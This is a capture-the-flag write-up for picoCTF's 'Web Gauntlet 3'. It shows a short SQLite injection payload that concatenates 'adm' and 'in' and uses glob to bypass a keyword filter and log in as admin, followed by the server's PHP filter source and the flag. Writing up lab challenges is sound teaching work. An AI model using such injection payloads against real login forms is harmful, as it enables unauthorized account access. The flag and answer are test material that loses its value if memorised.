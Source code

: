 # Web Gauntlet 3
Category: Web, 300 points

## Description

> Last time, I promise! Only 25 characters this time. Log in as admin
>
> Filtered: or and true false union like = > < ; -- /* */ admin
> 
> Hint: sqlite

## Solution

This is a follow-up for [Web Gauntlet 2](Web_Gauntlet_2.md), with a shorter character limit. Luckily, the payload we used for the previous challenge is short enough to be accepted here as well:

```
username: adm'||'in
password: ' glob '*

Full query:

SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*' 
```

We get the following response from the server:

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

The flag: `picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`